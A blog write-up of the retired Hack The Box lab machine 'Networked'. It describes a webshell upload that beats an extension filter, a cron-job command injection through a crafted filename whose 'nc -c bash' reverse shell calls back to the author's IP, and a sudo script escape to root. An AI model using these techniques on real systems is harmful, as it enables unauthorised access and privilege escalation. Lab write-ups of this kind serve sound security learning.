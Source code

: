 ```yaml
---
layout: post
title:  "HTB - Networked"
date:   2020-06-07 23:00 +0100
tags: writeups
initial: 2019-09-07
---
```

Writeup for the retired HTB machine Networked  
Link: https://www.hackthebox.eu/home/machines/profile/203  
IP: 10.10.10.146

<!--more-->

## Recon

The box has a web service on port 80 running, so common URL paths are in focus.

## gobuster
```
/index.php (Status: 200)
/uploads (Status: 301)
/photos.php (Status: 200)
/upload.php (Status: 200)
/lib.php (Status: 200)
/backup (Status: 301)
```
A complete backup of the website source code can be found in the `/backup` folder.  
As code access is at hand, the next step is to try and get a webshell up and running.  
It seems that upload filters are in place, which [can be tricked](https://github.com/xapax/security/blob/master/bypass_image_upload.md).  
The uploader can be tricked by renaming the payload to `file.php;.jpg`. This renders the last extension as a comment for PHP but bypasses the filter.
This results in the file being uploaded and makes the shell available for use.

## Getting a full user
Enumerating common priviledge escalation paths, a regular running cron job named `check_attack.php` in the user home folder can be discovered.


The script does its heavy lifting in `/var/www/html/uploads` and [based on tricks shared in this article](https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt), one could try to create a file with a name like  
`touch ";nc -c bash 10.10.15.195 4444"`  
Which yields an incoming connection with user privileges (*guly*) on the next cron run.


## Road to root
Checking common escalation paths from this user, it turns out the user is allowed to run a script named `changename.sh` with root privileges.

```
---
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh

```
Looking at `changename.sh` yields that we're interested in escaping the predefined vars.  
Once seen, it's kind of easy. Fill out all names without spaces.  
After close inspection it turns out that if all names are filled without spaces and the last variable is named `asd bash`, a root shell is spawned.